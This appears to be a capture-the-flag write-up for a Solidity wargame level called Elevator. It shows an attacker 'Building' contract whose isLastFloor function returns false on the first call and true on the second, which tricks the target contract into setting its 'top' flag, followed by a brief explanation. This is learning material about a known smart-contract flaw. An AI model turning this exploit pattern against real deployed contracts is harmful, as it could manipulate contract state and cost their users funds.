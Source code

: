```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IElevator{
    function goTo(uint _floor) external;
}

contract Building {
    uint256 index = 0;
    
    constructor() public {}

    function isLastFloor(uint) external returns (bool) {
        if (index == 0) {
            index++;
            return false;
        }
        return true;
    }

    function goTo(uint _floor, address _targetAddress) public {
        IElevator(_targetAddress).goTo(_floor);
    }
}
```

Basicially to solve this level, top state variable should be changed to true. For this we write a Building contract with isLastFloor function which returns false on first call and true on second call. So, we solve this by introducing a variable index to check the first and second call and reach top of the building setting top to true.
So we call the goTo function from the Building contract which in turn calls isLastFloor function of the Building contract and we finally reach to the top of the building.